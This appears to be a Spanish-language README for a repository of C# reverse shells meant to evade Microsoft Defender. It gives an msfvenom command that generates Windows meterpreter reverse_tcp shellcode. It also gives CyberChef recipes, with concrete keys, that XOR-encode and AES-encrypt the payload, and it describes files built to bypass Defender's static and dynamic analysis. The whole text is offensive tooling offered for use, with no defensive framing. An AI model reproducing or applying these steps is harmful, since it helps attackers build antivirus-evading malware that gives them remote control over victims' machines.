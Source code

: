 # Shell bitecode

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=... LPORT=... -f csharp

# Recetas:

### Xor

Encodear 2 veces

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Hex','string':'5c'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)

### AES

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')


# Archivos

### Csharp_revshell

Reverse shell simple creada para baypassear el análisis dinámico del Defender

### Defender_Static_bypass_shell

Reverse shell para bypassear el análisis estático del Defender.

Comprende 3 formas de uso:
1. payload en bitecode
2. Payload pasado por Xor
3. payload encriptado en Aes
